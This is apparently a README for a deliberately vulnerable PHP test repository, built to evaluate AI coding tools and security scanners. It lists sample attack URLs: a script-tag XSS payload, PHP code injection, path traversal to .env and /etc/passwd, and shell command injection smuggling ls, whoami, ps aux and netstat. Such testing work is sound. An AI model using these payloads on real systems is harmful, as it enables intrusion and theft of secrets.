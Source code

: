 # Security Testing PHP Codebase

## Overview
This repository contains intentionally vulnerable code designed to test AI-powered IDE tools and security scanners. The codebase serves as a testing ground to evaluate the effectiveness of various security analysis tools in detecting vulnerabilities.

## Purpose
- Test AI-powered IDE tools' ability to detect security vulnerabilities against PHP codebase. You can prompt the Agent to `What are the vulnerabilities in my code`.
- Evaluate security scanners' effectiveness in identifying common security issues
- Provide a controlled environment for security testing
- Serve as a reference for understanding common security vulnerabilities
- Continuously expand with new vulnerabilities and security test cases over time
- Demonstrate how sensitive environment variables can be exposed through `.env` files in version control (intentionally included to test security scanners)

## Author
Created by Weng Fei Fung

## Usage
This repository is intended for:
- Security researchers
- AI tool developers
- Security testing professionals
- Educational purposes


## Setup

Run on a php server locally. This has been tested on PHP version 8.3.12. You can find your PHP version by running `php --version`. For the example vulnerabilities, you can setup Mamp and have this app folder as `hacks` at the root htdocs and set port to 8888, otherwise adjust the example vulnerability url's as appropriately.

## Example vulnerabilities
- http://localhost:8888/hacks/echo/?name=%3Cscript%3Ealert(%22You%27re%20hacked!%22);%3C/script%3E
    - Cross-site scripting (XSS)
    - Classification: 
        - CAPEC	19
        - CWE	79
        - WASC	8
        - OWASP 2021	A3
- http://localhost:8888/hacks/commands-php/?user-role=admin;phpinfo();
- http://localhost:8888/hacks/open-file/?filepath=../.env
- http://localhost:8888/hacks/open-file/?filepath=%2e.%2f.env
- http://localhost:8888/hacks/open-file/?filepath=../etc/passwd
- Baseline use (Not hacked): http://localhost:8888/hacks/commands-shell/grep.php?search=at
- http://localhost:8888/hacks/commands-shell/grep.php?search=at%20;ls%20.;
- http://localhost:8888/hacks/commands-shell/find.php?search=at;ls%20.;
- http://localhost:8888/hacks/commands-shell/find.php?search=at;%20whoami
- http://localhost:8888/hacks/commands-shell/find.php?search=at;%20ps%20aux
- http://localhost:8888/hacks/commands-shell/find.php?search=at;%20netstat%20-tul

## Warning
⚠️ **IMPORTANT**: This repository contains intentionally vulnerable code. Do not deploy this code in production environments or expose it to untrusted networks. Use only in controlled testing environments.

## Disclaimer
This code is provided for educational and testing purposes only. The author is not responsible for any misuse or damage caused by the code in this repository.
